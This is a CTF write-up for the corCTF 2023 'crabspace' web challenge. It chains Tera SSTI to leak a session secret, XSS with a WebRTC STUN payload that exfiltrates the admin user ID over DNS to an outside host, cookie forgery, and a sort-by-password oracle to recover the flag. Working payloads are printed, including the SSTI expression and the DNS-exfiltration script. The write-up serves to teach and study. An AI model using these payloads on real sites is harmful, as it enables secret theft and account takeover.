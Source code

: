 ```yaml
---
layout: post
title: corCTF 2023 web/crabspace Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


[corCTF](https://2023.cor.team/challs)  
[Event on CTFtime](https://ctftime.org/event/1928)

It was a team effort for us to solve this challenge. I learned something new about WebRTC.

## Solution summary

- SSTI in `Tera::one_off` to leak secret
- WebRTC to bypass CSP restrictions and exfiltrate admin user ID
- Forge admin cookie with admin user ID and secret to gain access to admin view
- Follow admin account and sort following accounts on password field to leak admin password (which is the flag)

## crabspace

- Description:
  > Now that Twitter is 🦀 gone 🦀, it's time for a new social media platform.  
    🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀🦀
- Author: Strellic

The source code is provided. I can create users, edit my "space", view other users' "space"s, and follow other users.

![crabspace](/assets/image/corctf-2023-crabspace-web-writeup/crabspace.png)

To view a user's "space", visit `/space/<user id>`, The user id is UUIDv4 generated when the user is created. The "space" content is rendered in an `iframe`, with the content in the `iframe`'s `srcdoc` attribute.

{% raw %}
```html
<iframe sandbox="allow-scripts"
srcdoc="<link rel='stylesheet' href='/public/axist.min.css' />{{ space }}" class="space"></iframe>
```
{% endraw %}

With content in `srcdoc`, it is rendered as HTML in the `iframe` even it is escaped in the template, thus we have an easy(?) XSS.

The users are defined as a struct as shown below and stored in a map.

```rust
#[derive(Debug, Serialize, Clone)]
pub struct User {
    pub id: Uuid,
    pub name: String,
    pub pass: String,
    pub following: Vec<Uuid>,
    pub followers: Vec<Uuid>,
    pub space: String,
}
```

The admin user with flag as the password, and a random ID is created on starting of the application.

The bot first logs in as admin, then visit an URL we provide.

## Finding SSTI

Initially it was not clear how we can get the flag from what is obvious. While I was on the train I read the source code twice and with the help of [documentation](https://docs.rs/tera/latest/tera/struct.Tera.html#method.one_off) I found the `one_off` function in Tera when rendering "space" page is a bit suspicious.

```rust
ctx.tera.insert(
    "space",
    &Tera::one_off(&user.space, &ctx.tera, true).unwrap_or_else(|_| user.space.clone()),
);
ctx.tera.insert("id", &id);
utils::render(tera, "space.html", ctx.tera).into_response()
```

![one_off is used in the code.](/assets/image/corctf-2023-crabspace-web-writeup/one-off.png)

The code takes the user's "space" as template and renders it. Tera templates documentation can be found at <https://tera.netlify.app/docs/#templates>.

When I printed out the template context with {% raw %}`{{ __tera_context }}`{% endraw %}, I got:

{% raw %}
```
{ "user": { "followers": [], "following": [], "id": "af787749-d532-4d37-94a6-2d6bc4201f63", "name": "lollol", "pass": "", "space": "{{ __tera_context }}" } }
```
{% endraw %}

The context includes the user struct, which includes the ID of the logged in user. However, the password is set to empty string when the context is created:

```rust
user = USERS.get(&id).map(|v| User {
    pass: "".to_string(),
    ..v.clone()
});
```

We can use SSTI to leak the secret for session cookie with {% raw %}`{{ get_env(name="SECRET") }}`{% endraw %}. With the secret and the user ID of admin, we can forge a session cookie to login as admin.

## Leak admin user ID

With the SSIT which can render the user ID and XSS, leaking the admin user ID should be easy right? However, with the very strict fetch directive CSP below, we tried including fetch API, WebSocket, meta tag and JS redirect, form and DNS prefetch, but had no luck exfiltrating the data. I could not find any endpoint on within the challenge that I could use style-src to exfiltrate the data neither.

```
default-src 'none'; style-src 'self'; script-src 'unsafe-inline'; frame-ancestors 'none'
```

I then reading through all non-fetch directives in CSP, and some research. While getting ready to go to bed, thinking about all the cases where a webpage makes request to server, WebRTC came to my mind (I have also noticed [a very new TR about WebRTC](https://www.w3.org/TR/webrtc-nv-use-cases/), which may or may not be related). As I do not know much about WebRTC, I put a message on our Discord channel before I went to bed.

The next morning, I started with some WebRTC examples. The payload is limited to only 200 characters, with some trial and error, I managed to craft a minimal payload that would do DNS request for the STUN server I specify (the payload has been modified to be more readable):

{% raw %}
```html
<script>
async function a(){
    c={iceServers:[{urls:"stun:{{user.id}}.x.cjxol.com:1337"}]}
    (p=new RTCPeerConnection(c)).createDataChannel("d")
    await p.setLocalDescription()
}
a();
</script>
```
{% endraw %}

The port does not matter, as we are exfiltrating through DNS request. The user ID is included in the hostname and sent through DNS request.

## Getting the flag

The admin account has access to admin view for each user (except admin itself). The admin view has the lists of followers and followings of the user. The lists are sorted with field specified in the URL query parameter. It is possible to sort by password field using `?sort=pass`.

We can have a main account to follow other users. We can then create a list of users with selected password, and follow them along with admin on our main account. With the admin view, we can list the followings of the main account sorted by password, and we can get the flag character by character. This can be scripted with preparing the whole following list and get one character each time we visit the admin view, or can script with binary search. (This is kinda pain to extract the flag, thanks to my teammate implemented the solution.)

Got the flag 🦀:

```
corctf{b3tter_name_th4n_x}
```